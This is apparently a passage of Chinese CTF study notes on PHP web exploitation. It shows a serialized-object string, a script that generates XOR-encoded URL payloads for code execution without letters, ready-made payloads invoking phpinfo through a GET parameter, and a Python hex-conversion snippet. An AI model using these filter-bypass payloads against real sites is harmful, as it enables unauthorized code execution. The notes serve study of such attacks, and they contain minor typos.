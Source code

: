 **输出则会导致不可见字符`\x00`的丢失**

```php
O:4:"test":2:{s:4:" * a";s:9:"xiaoshizi";s:7:" test b";s:8:"laoshizi";}
```

### 4、无参数REC脚本

```php
<?php
$l = "";
$r = "";
$argv = str_split("_GET");  ##将_GET分割成一个数组，一位存一个值
for($i=0;$i<count($argv);$i++){   
    for($j=0;$j<255;$j++)
    {
        $k = chr($j)^chr(255);    ##进行异或         
        if($k == $argv[$i]){
            if($j<16){  ##如果小于16就代表只需一位即可表示，但是url要求是2位所以补个0
                $l .= "%ff";
                $r .= "%0" . dechex($j);
                continue;
            }
            $l .= "%ff";
            $r .= "%" . dechex($j);
            
        }
    }}
echo "\{$l^$r\}";  ### 这里的反引号只是用来区分左半边和右半边而已

# 构造出如下脚本
${%ff%ff%ff%ff`%a0%b8%ba%ab}{%A0}();&%A0=phpinfo
${%A0%B8%BA%AB^%ff%ff%ff%ff}{%A0}();&%A0=phpinfo
##  1^2=2^1
## 这里值得注意的是${_GET}{%A0}就等于$_GET[%A0],
    # %A0是一个字符虽然没有被引号引起来但是php也不会将他看出是变量，
    # 这就是为什么&_GET[cmd]=&_GET["cmd"] 了。
## 还有一个特性是$a=phpinfo 如果执行$a() 就相当于执行了phpinfo()

```

### 5、python中16进制和str转换

```py
## 将一个十六进制字符串解码成一个字节字符串或者将一个字节字符串编码成一个十六进制字符串。
import base64
import binascii
s1=binascii.b2a_hex(b'mayi')  #只有bytes 可以被编码 ，返回bytes
s2=binascii.a2b_hex(b'6d617969') # 解码可以str也可bytes ，返回bytes
print(s1)
print(s2)
print(type(s2))
print(s2.decode('ascii'))

"""也可以直接使用base63模块的，只是它不支持小写16进制"""
# s3=base64.b16encode(b"234")  ## 只有bytes才可以被编码，返回bytes
# s4=base64.b16decode(b'323334')  ## 解码不要求其类型，返回bytes
# print(s3)
# print(s4)
# print(type(s3))
# print(s3.decode('ascii'))

"""直接将一个16进制转字符？似乎只能转bytes"""
# a=b"mayi"
# a=a.hex() ##转为16进制，必须要求a是bytes，返回结果为str 类型
```